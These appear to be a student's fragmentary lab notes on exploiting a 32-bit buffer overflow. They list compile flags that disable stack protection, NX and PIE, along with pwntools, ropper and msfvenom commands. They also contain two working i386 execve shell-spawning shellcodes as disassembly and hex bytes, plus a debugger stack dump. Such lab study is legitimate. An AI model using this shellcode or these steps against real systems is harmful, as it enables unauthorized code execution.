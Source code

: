 
file vuln 

gcc vuln.c -o vuln -fstack-protector-all -

remove all protection
gcc vuln.c -o vuln -fno-stack-protector -z execstack -no-pie -m32

ltrace

checksec --file=vuln

/mnt/e/Desktop/cslab/Buffer overflow attack


export PATH=$PATH:~/.local/bin

export PYTHONPATH=$PYTHONPATH:/usr/local/lib/python3.10/dist-packages


cyclic 100


rdi , rsi , rsx , rcx

ropper --file vuln --search "pop rdi"    

ls -lart


shellcraft i386.linux.sh

shellcraft i386.linux.sh -f a

msfvenom -p linux/x86/exec PATH=














  #  gcc -c asm.s -o asm.o -m32
  #  objdump -d asm.o
  # ld -m elf_i386 -o asm asm.o -lc

  
# 00000000 <_start>:
#    0:   eb 18                   jmp    1a <line>

# 00000002 <address>:
#    2:   5e                      pop    %esi
#    3:   31 c0                   xor    %eax,%eax
#    5:   88 46 09                mov    %al,0x9(%esi)
#    8:   89 76 0a                mov    %esi,0xa(%esi)
#    b:   89 46 0e                mov    %eax,0xe(%esi)
#    e:   b0 0b                   mov    $0xb,%al
#   10:   89 f3                   mov    %esi,%ebx
#   12:   8d 4e 08                lea    0x8(%esi),%ecx
#   15:   8d 56 0c                lea    0xc(%esi),%edx
#   18:   cd 80                   int    $0x80

# 0000001a <line>:
#   1a:   e8 e3 ff ff ff          call   2 <address>

# 0000001f <variable>:
#   1f:   2f                      das
#   20:   62 69 6e                bound  %ebp,0x6e(%ecx)
#   23:   2f                      das
#   24:   62 61 73                bound  %esp,0x73(%ecx)
#   27:   68 41 42 42 42          push   $0x42424241
#   2c:   42                      inc    %edx
#   2d:   43                      inc    %ebx
#   2e:   43                      inc    %ebx
#   2f:   43                      inc    %ebx
#   30:   43                      inc    %ebx

# \xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43\x43



0x08049176




0x0804c040





pwndbg> x/32xw $esp
0xffffc8f0:     0xffffc900      0x0804c040      0xf7fc6700      0x08049185
0xffffc900:     0x895e1ceb      0xc0310876      0xb00c4689      0x8df3890b
0xffffc910:     0x568d084e      0x3180cd0c      0x40d889db      0xdfe880cd
0xffffc920:     0x2fffffff      0x2f6e6962      0x00006873      0x00000000
0xffffc930:     0x00000000      0x00000000      0xf7d93374      0x0804826c
0xffffc940:     0xf7d8a194      0xf7fbe66c      0xffffc9c4      0x003055e4
0xffffc950:     0xf7d994be      0xf7fd02a4      0xf7d86674      0xffffc9cc
0xffffc960:     0xf7ffdba0      0x00000002      0xf7fbeb10      0x00000001
pwndbg> cyclic  



\xeb\x1c\x5e\x89\x76\x08\x31\xc0\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdf\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00"



0x08049186